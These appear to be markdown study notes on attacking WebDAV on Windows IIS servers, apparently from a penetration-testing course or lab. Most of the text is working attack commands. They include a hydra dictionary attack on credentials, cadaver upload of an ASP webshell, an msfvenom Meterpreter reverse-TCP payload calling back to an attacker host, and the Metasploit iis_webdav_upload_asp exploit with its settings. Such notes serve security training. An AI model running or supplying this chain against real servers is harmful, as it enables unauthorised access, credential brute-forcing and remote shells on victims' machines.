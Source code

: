 
# Overview
- Set of extensions to HTTP on Win IIS
- Need to provide credentials user/pass
- can access by specifying folder
- can brute force or use prior obtained credentials
- --script http-enum : check for webdav folder and auth

# #Tools

## davtest
- used to scan, authenticate, and exploit WebDAV
- `davtest -auth bob:password -url http://10.34.2.3/webdav`
- series of checks on file types and execution capabilities
## cadaver
- file manipulation: up, down, edit
- `cadaver http://192.168.3.2/webdav`
- authenticate
- give shell where you can list and get/put
- `ls /usr/share/webshells/`
- `put /usr/share/webshells/asp/webshell.asp`
- then navigate in browser to webdav/webshell.asp
## hydra
- dictionary attack
```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt IPaddr http-get /webdav/
```

## msfvenom
create payload reverse shell
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.32.2 LPORT=3001 -f asp > meterpreter.asp
```

## metasploit
make sure postgresql is started
- **use multi/handler**
- set payload windows/meterpreter/reverse_tcp
	- Set to same payload as you generated in **msfvenom**
- set LHOST same_as_payload
- set LPORT same_as_ayload
- run
	- sysinfo
	- getuid
- `search iis upload`
- **use exploit/windows/iis/iis_webdav_upload_asp**
	- set HttpUsername bob
	- set HttpPassword password
	- set rhosts targetIP
	- set PATH /webdav/meterpreter.asp
	- run

